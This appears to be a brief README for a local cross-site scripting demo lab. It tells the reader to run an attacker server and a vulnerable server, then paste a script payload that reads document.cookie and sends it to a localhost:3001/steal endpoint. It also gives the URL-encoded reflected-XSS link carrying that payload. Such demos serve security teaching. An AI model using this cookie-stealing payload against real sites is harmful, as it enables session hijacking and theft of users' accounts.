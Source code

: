 First of all, try to install node_modules: npm install
Then run attacker and server: node attacker.js, node server.js
Paste payload in server input field: 
<script>
  const cookies = encodeURIComponent(document.cookie);
  new Image().src = `http://localhost:3001/steal?cookie=${cookies}`;
</script>
 You will see link to website like http://localhost:3000/search?query=%3Cscript%3Enew%20Image().src%3D%22http%3A%2F%2Flocalhost%3A3001%2Fsteal%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E
 Open this one in incognito mode, then go to console of atckker and look at stolen coockies.
